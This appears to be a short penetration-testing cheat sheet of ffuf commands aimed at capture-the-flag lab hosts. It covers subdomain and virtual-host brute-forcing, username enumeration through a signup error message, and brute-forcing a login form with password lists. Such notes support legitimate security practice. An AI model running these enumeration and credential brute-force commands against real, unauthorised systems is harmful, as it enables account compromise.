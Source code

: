 ### subdomain bruteforce

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.221.132
```

```sh
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt \
-u http://forge.htb -H 'Host: FUZZ.forge.htb' -fc 302
```

---

### username enum (login error code)
```shell
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.184.166/customers/signup -mr "username already exists"
```

---

### brute force login
```shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.184.166/customers/login -fc 200
```

